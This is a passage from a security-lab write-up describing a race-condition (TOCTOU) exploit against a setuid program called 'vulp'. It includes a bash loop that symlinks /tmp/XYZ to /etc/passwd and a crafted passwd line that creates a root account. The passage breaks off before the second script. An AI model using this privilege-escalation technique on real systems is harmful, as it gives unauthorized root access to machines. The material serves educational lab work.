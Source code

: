 ![passwd file changed and now has a new user](images/imagem6.PNG)
![Logging in with our new user created through the exploit](images/imagem7.PNG)

We successfully exploited the vulnerability and gained root access!

## Task 5: Launching the Attack on a Normal Computer

An exploit that only works on very slow computers clearly isn't what we are after. So, we now want one that works on the original vulp script. 
Timing is key for this exploit, we only have root priveleges for a very short window of time and the way to do it is to execute the exploit in that time. This is very hard and time consuming for a human to do maunualy, luckily, we can craft a script that attempts it as many times it takes to get it to work.
For this exploit, we made two bash scripts that run at the same time. One that deletes the **/tmp/XYZ** file, creates it again and links it to **/etc/passwd** until it sees that the **/etc/passwd** has changed. And the second runs the vulp script with the same input on a file, that being: **exp:U6aMy0wojraho:0:0:exp:/root:/bin/bash**. We have the two scripts bellow:

```sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    rm -f tmp/XYZ
    >/tmp/XYZ
    ln -sf /etc/passwd /tmp/XYZ
    new=$($CHECK_FILE)
done
echo "STOP... passwd file has been changed"
```
